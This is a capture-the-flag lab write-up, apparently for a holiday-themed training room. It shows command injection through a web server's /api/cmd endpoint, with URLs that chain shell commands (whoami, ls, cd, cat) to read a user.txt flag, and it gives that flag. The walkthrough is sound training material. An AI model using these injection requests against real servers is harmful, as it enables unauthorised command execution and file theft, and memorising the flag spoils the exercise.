



## Introduction

> Another day, another hack from the Christmas Monster. Can you get back control of the system?

> Access the web server on http://[your-ip]:3000/

> McSkidy actually found something interesting on the /api/cmd endpoint.

> Check out the [supporting material](./Christmas Command Injection) here.

## Question 1

> What are the contents of the user.txt file?

td:lr Answer: **5W7WkjxBWwhe3RNsWJ3Q**

===============================================================================

On the webpage, it is just an empty page with the text "christmas monster was here"

we were given in the intro that there is something interesting on /api/cmd.

Navigating to http://[ip]:3000/api/cmd, we will see error "Cannot GET /api/cmd/"
However, as the supporting doc implies, there might be command injection available here

we can try by inserting whoami:

`http://[ip]:3000/api/cmd/whoami`

straightaway we can see a json return of 'root\n', which means our command injection works successfully
So now we need to find the right information by enumerating and finding the right file:

`http://[ip]:3000/api/cmd/ls -la`

`http://[ip]:3000/api/cmd/cd home&&ls -la`

`http://[ip]:3000/api/cmd/cd home&&cd bestadmin&&ls -la`

in the directory home/bestadmin/ we will find the user.txt file. Hence the below will give us the answer.

`http://[ip]:3000/api/cmd/cd%20home&&cd%20bestadmin&&cat%20user.txt`

